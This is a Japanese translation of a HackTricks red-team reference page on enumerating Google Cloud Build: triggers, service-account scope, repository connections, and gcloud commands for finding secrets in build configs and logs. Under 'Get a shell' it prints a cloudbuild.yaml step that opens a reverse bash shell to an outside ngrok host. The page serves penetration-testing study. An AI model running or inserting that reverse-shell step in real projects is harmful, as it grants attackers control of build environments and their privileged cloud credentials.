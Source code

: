 # GCP - Cloud Build Enum

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でゼロからヒーローまでAWSハッキングを学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい場合**、または**HackTricksをPDFでダウンロードしたい場合**は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを共有する。

</details>

## 基本情報

Google Cloud Buildは、**ソフトウェアのビルド**とリリースプロセスを自動化する管理されたCI/CDプラットフォームであり、**ソースコードリポジトリ**と統合し、幅広いプログラミング言語をサポートしています。開発者がコードを自動的にビルド、テスト、デプロイすることを可能にし、ビルドステップとワークフローをカスタマイズする柔軟性を提供します。

各Cloud Buildトリガーは、**Cloudリポジトリに関連しているか、直接外部リポジトリ**（Github、Bitbucket、Gitlab）に接続されています。

{% hint style="success" %}
Github/Bitbucketのトークンをここから、またはCloudリポジトリから盗む方法は見つかりませんでした。なぜなら、リポジトリがダウンロードされるときは[https://source.cloud.google.com/](https://source.cloud.google.com/)のURLを介してアクセスされ、Githubはクライアントによってアクセスされないからです。
{% endhint %}

### イベント

Cloud Buildは以下の場合にトリガーされます:

* **ブランチへのプッシュ**: ブランチを指定
* **新しいタグのプッシュ**: タグを指定
* **プルリクエスト**: PRを受け取るブランチを指定
* **手動呼び出し**
* **Pub/Subメッセージ:** トピックを指定
* **Webhookイベント**: HTTPS URLが公開され、リクエストはシークレットで認証される必要があります

### 実行

3つのオプションがあります:

* yaml/jsonで**実行するコマンドを指定**します。通常は: `/cloudbuild.yaml`
* ウェブコンソールとCLIで「インライン」で指定できる唯一のオプション
* 最も一般的なオプション
* 認証されていないアクセスに関連する
* **Dockerfile**をビルドする
* **Buildpack**をビルドする

### SA権限

**サービスアカウントは`cloud-platform`スコープを持っており**、すべての権限を**使用できます。** **SAが指定されていない場合**（submitを行うときなど）、デフォルトのSA `<proj-number>@cloudbuild.gserviceaccount.com`が**使用されます。**

デフォルトでは権限は与えられていませんが、簡単にいくつかの権限を与えることができます:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 承認

ビルド実行に承認が必要なCloud Buildを設定することが可能です（デフォルトでは無効）。

### 接続 & リポジトリ

接続は以下を通じて作成できます:

* **GitHub:** OAuthプロンプトが表示され、**Githubトークン**を取得するための権限を求められます。これは**Secret Manager**内に保存されます。
* **GitHub Enterprise:** **GithubApp**のインストールを求められます。GitHub Enterpriseホストからの**認証トークン**が作成され、このプロジェクトの**Secret Manager**シークレットとして保存されます。
* **GitLab / Enterprise:** APIアクセストークンとRead APIアクセストークンを**提供する必要があり**、これらは**Secret Manager**に保存されます。

接続が生成されると、Githubアカウントがアクセスできるリポジトリを**リンクするために使用できます。**

このオプションは以下のボタンから利用可能です:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
この方法で接続されたリポジトリは、**2世代目を使用するトリガーでのみ利用可能**であることに注意してください。
{% endhint %}

### リポジトリの接続

これは**`connection`**と同じではありません。これにより、**異なる**方法で**GithubまたはBitbucket**リポジトリにアクセスすることができますが、接続オブジェクトは生成されませんが、リポジトリオブジェクト（1世代目）は生成されます。

このオプションは以下のボタンから利用可能です:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### ストレージ

Cloud Buildは、トリガーのためのファイルを保存する新しいストレージを**生成することがあります**。これは例えば、GCPが提供する例で次のような場合に発生します:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
### シェルを取得

Storageバケットとして[security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox)が作成され、使用するファイルが含まれた`.tgz`を保存します。
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### 列挙

ビルド設定とログに**機密情報**が見つかる可能性があります。
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### 特権昇格

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### 認証されていないアクセス

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### 攻撃後の活動

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加する、または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
